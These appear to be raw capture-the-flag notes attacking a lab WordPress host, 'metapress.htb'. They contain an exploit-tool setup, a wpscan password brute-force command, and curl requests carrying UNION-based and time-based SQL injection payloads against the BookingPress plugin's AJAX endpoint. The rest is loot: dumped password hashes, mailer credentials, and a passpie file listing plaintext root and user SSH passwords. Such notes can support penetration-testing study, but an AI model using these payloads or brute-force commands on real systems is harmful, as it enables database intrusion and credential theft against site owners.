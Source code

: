 
### robots.txt
```
User-agent: *
Disallow: /wp-admin/
Allow: /wp-admin/admin-ajax.php

Sitemap: http://metapress.htb/wp-sitemap.xml
```

git clone https://github.com/relarizky/wpxploit.git
cd wpxploit
pip3 install -r requirements.txt
./exploit.py

wpscan --rua -e ap,at,tt,cb,dbe,u,m --url http://metapress.htb/  --passwords /usr/share/wordlists/external/SecLists/Passwords/probable-v2-top1575.txt 

curl -i 'http://metapress.htb/wp-admin/admin-ajax.php' \
  --data 'action=bookingpress_front_get_category_services&_wpnonce=f26ed88649&category_id=33&total_service=-7502) UNION ALL SELECT @@version,@@version_comment,@@version_compile_os,1,2,3,4,5,gRoUp_cOncaT(0x7c,schema_name,0x7c) fRoM information_schema.schemata-- -'
  
  curl -i 'http://metapress.htb/wp-admin/admin-ajax.php' \
  --data 'action=bookingpress_front_get_category_services&_wpnonce=f26ed88649&category_id=1&total_service=1) AND (SELECT 9578 FROM (SELECT(SLEEP(5)))iyUp)-- ZmjHa
  
  
  gRoUp_cOncaT(0x7c,table_name,0x7C)+fRoM+information_schema.tables+wHeRe+table_schema=
  
  curl -i 'http://metapress.htb/wp-admin/admin-ajax.php' \
  --data 'action=bookingpress_front_get_category_services&_wpnonce=f26ed88649&category_id=33&total_service=1'
  
$P$B4aNM28N0E.tMy/JIcnVMZbGcU16Q70
$P$BGrGrgf2wToBS79i07Rk9sN4Fzk.TV.


$mail->Username = "jnelson@metapress.htb";                 
$mail->Password = "Cb4_JmWM8zUZWMu@Ys"; 


credentials:
- comment: ''
  fullname: root@ssh
  login: root
  modified: 2022-06-26 08:58:15.621572
  name: ssh
  password: !!python/unicode 'p7qfAZt4_A1xo_0x'
- comment: ''
  fullname: jnelson@ssh
  login: jnelson
  modified: 2022-06-26 08:58:15.514422
  name: ssh
  password: !!python/unicode 'Cb4_JmWM8zUZWMu@Ys'
handler: passpie
version: 1.0
ter
